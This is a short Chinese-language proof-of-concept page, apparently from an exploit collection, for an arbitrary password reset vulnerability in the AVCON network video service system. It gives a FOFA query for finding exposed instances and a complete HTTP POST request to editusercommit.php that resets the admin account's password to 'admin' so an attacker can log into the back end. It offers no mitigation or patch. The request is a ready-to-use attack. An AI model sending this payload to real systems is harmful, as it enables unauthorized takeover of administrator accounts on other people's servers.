 # AVCON-网络视频服务系统editusercommit.php存在任意用户重置密码漏洞



AVCON-网络视频服务系统通过接口 `/avcon/av_user/editusercommit.php?currentpage=1`  重置admin用户的密码，从而登录系统后台。

## fofa



```
title=="avcon 网络视频会议系统"
```

​    

## poc



```
POST /avcon/av_user/editusercommit.php?currentpage=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 226
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=4

userid=admin&username=administration&password=admin&rpassword=admin&question=admin&answer=123&gender=%E7%94%B7&birthday=0000-00-00&edutypeid=0&phone=&mobile=&email=&address=&postcode=&go=-2&confirm=+++%E7%A1%AE%E5%AE%9A+++
```

​    

![](https://cdn.nlark.com/yuque/0/2024/png/43104311/1727256331024-a93661d1-819d-447c-be18-22f7f5a77d15.png)

